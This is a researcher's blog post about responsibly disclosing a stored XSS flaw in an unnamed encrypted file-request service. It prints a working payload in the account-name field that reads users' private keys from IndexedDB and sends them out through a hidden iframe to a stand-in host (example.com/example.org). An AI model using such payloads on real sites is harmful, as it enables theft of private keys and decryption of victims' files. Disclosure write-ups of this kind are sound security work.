


+++
title = "Stealing private keys from a secure file sharing service"
description = "How I went about stealing private keys from a secure file sharing service with normal file request"

[taxonomies]
categories = ["blog"]
tags = ["hack", "web", "xss", "javascript"]

[extra]
comments = true
zenn_applause = true
+++

_Note: in agreement with the company, I decided not to name them to prevent
damaging their brand image. The company fixed the issue within an hour after
notifying them, big kudos for that._

> Here's a story on a _secure_ file transfer company, that got hacked in 2 hours, by a nerd with a computer.

On the 24th of October, an article was posted on [Tweakers][tweakers]
(a Dutch tech website) showing off a newly released service to securely request
files from someone through the web.

As always, I'm super interested in the cryptographic implementation of such
services to ensure they're secure, even if for example, the company servers
would be compromised. Sadly, their website didn't go deep into the technical
details other than some simple facts that local cryptography is used with a
private key using RSA and AES to provide end-to-end encryption. The application
is not open-source which would allow easy auditing, and no white paper is
available.

Their website claims the system is secure, but everyone makes mistakes. So I
decided to put it to the test. Let's see what I could break.

Spoiler alert: it didn't turn out so well...

_This article goes into the technical details on how this was possible, you may
want to skip to the PoC [video](#video) instead._

<!-- more -->

## XSS
After making an account, I started testing with some basic well-known techniques.
Soon I discovered that persistent/stored [cross-site scripting][xss] was possible
through the account and company name fields.

The service allows you to create a file request. You'll then be provided a link
to send to someone, or you can send this by e-mail through their website.
The recipient user is presented with a page on which they can securely upload
files. The request includes your public key, which is used to securely encrypt
your files on their client before anything is transferred to servers. So far,
all well and good!

Here's the thing. It appeared that on this file request page, the name (and
company name) of the user that initiated the request is presented, but not
properly sanitized.

By putting the following snippet in your account name field, a JavaScript
message will appear as soon as someone opens any of your request links.

```html
<script>alert('Hi there!');</script>
```



This means we can execute our own code on a targets machine. That's some nasty
stuff! The question is, what significant things can we do with this issue?

## Local private keys
The service uses client-side asymmetric encryption to secure your files. Because
we're on a website, this must be done through JavaScript. This means that this
[private key][private-key] is accessible through JavaScript. The service stores
your generated private key in local [indexedDB][indexeddb] storage and is never
sent over the network.

To give some context on private keys: these are essentially what keep encrypted
files secure. Once you have the private key, you can decrypt files that use
that key-pair. You **must** protect this key, and **cannot** share it with someone
else.

You probably guessed it already, we can abuse this by accessing it ourselves by
modifying our snippet we put in the name field.

I wrote some code to retrieve all local data that includes our key.
I came this far in about half an hour. It's all quite simple:

```javascript
var dbReq = indexedDB.open("companyname");
dbReq.onsuccess = () => {
    var store = dbReq.result.transaction(["keys"]).objectStore("keys").get("52_private_key");
    store.onsuccess = () => alert(store.result.pem);
};
```

Embedding this in our name will make the file request pages show the receiving
user's private key in a JavaScript alert. Whoops.



The amazing thing is that the request URL isn't modified to achieve this. It
does not look suspicious. The malicious snippet is stored in the database.

## Collect private keys on attackers server
Showing a user their private key isn't interesting and looks suspicious for
sure. Let's send this key to a remote server for the attacker to collect, and
profit, oh yes!

For this, I started an attempt on making [POST][http-methods] requests with the
private key data to a remote domain I own. Here I hit the first roadblock. The
name field only allows input up to 255 characters. Native JavaScript is quite
verbose with making a request, so some serious [golfing][codegolf] would be
required.

Soon I found out [jQuery][jquery] was included in the application, which allows
making super simple and short [Ajax][ajax] requests. Brilliant!

This didn't work out in the end though because of some set [CORS][cors] headers,
being a nice method for protecting against these kinds of things.

Fun fact, this doesn't work against non-[Ajax][ajax] requests. Opting for a
[GET][http-methods] request with the data suffixed to the URL was perfectly fine, so I
choose to use [`iframes`][iframe]. I suffixed the data to the end of the URL
like `//example.com/?k=DATA`, and silently added an `iframe` to the page with
this link. The browser immediately loads this `iframe`, sending us our precious
data. This is what we need:

```javascript
$('body').append(
    '<iframe src="//example.com/?k=' +
    btoa(JSON.stringify(secret_data)) +
    '" />'
);
```

> Redirecting the user to the attacker's page using
> [`window.location.href`][window-location] would work as well, but that looks
> super suspicious.

Hurray! We're now remotely collecting someone's private key!

## Proof of Concept
Now that we've implemented these steps, let's build a proof of concept.

With some effort, I compressed the code from above into the following one-liner.
With my own short domain, it counts 250 characters, just below the 255 character
limit. Beautiful!

```html
<script>setTimeout(()=>indexedDB.open("companyname").onsuccess=(a)=>a.target.result.transaction(["keys"]).objectStore("keys").getAll().onsuccess=(b)=>$('body').append('<iframe src="//example.org?k='+btoa(JSON.stringify(b.target.result))+'">'),1);</script>
```

On the server-side I implemented a simple PHP script that retrieves the data we
suffixed to the URL, it parses it, pulls the key from the data and appends it to
a `keys.txt` file on my server. Nothing fancy.

This is all we need to steal someones private key for this service from a target!

## Video
I've recorded a simple video showing off the proof of concept.

- There are two users, Alice and Bob.
- Alice creates a request link and sends it to Bob.
- Bob opens the request link and his private key is stolen.
- The private key is sent to an external server Alice has access to, and Alice
  can now decrypt files sent to Bob.
- On the right, the `keys.txt` file is shown in which stolen keys are collected.
- In the end, I export Bob's key through the website as normal and compare it to the key we stole. They match!

<video controls><source src="https://uploads.timvisee.com/p/stealing-private-keys-from-secure-file-sharing-service-poc-video.webm" type="video/webm"><source src="https://uploads.timvisee.com/p/stealing-private-keys-from-secure-file-sharing-service-poc-video.mp4" type="video/mp4">Your browser does not support HTML5 video :(</video>

Let's start fixing this.

## Fixed in an hour
After I built the PoC, I immediately contacted the company privately to notify
them about this issue. They did respond within 15 minutes over e-mail and we
agreed on a secure channel I could use to provide details on this issue.

I sent them the details at 22:08, including the PoC video. They published a fix
at 23:12. That's just in about an hour. Big applause to the company for
fixing this issue so quickly. It shows they're dedicated to securing their
service, as this was definitely out of company hours.

## Impact
Let's go over the impact this might have had:

- The core issue here was that [XSS][xss] was possible. This has been fixed.
- This issue allowed you to steal a targets private key if they had stored their
  private key in the browser on that computer the link was opened on.
- The attacker could use their private key could be used to decrypt files that are
  sent to them, but only if you have access to the encrypted blob somehow. This
  would require access to their server, which this issue on its own didn't provide.
- After finding this issue, I did not report it to anybody else other than the
  company until they fixed the problem.

Based on this I'd argue that real-world abuse of this issue would have been
seriously minimal, if not non-existent.

## Closing off
I guess what we've learned here is that you should never consider a service to
be secure, purely on what they're claiming on their website. This shows to be
true again and again.

I always recommend choosing a solution that:
- Has been around for a while for a while
- That is open-source
- That has been battle-tested in the real world
- That has had public security audits by multiple parties
- That relies on technologies that are considered to be safe based on thorough
  research and reviews
- That is hosted by a _trustful_ party

> Do I recommend to look for something else than this service?

Not necessarily. Other than this implementation issue, they seem to have
set-up things quite well for what I can probe from the outside.
They're using the right technologies for encryption, and definitely made some
good choices with regard to security. It was just a sad thing they missed this
tiny detail.

But if there's a different tool that meets your needs, and better
fits the informal requirements I listed above, you're may be better off from a
security standpoint.

To securely send someone a file, I personally recommend [Firefox Send][firefox-send]
with [`ffsend`][ffsend] (which is a command line client for it that I built).

[ajax]: https://developer.mozilla.org/en-US/docs/Web/Guide/AJAX
[codegolf]: https://en.wikipedia.org/wiki/Code_golf
[cors]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
[ffsend]: https://github.com/timvisee/ffsend
[firefox-send]: https://send.firefox.com/
[http-methods]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods
[iframe]: https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe
[indexeddb]: https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API
[jquery]: https://jquery.com/
[private-key]: https://info.ssl.com/faq-what-is-a-private-key/
[tweakers]: https://tweakers.net/
[window-location]: https://developer.mozilla.org/en-US/docs/Web/API/Window/location
[xss]: https://en.wikipedia.org/wiki/Cross-site_scripting
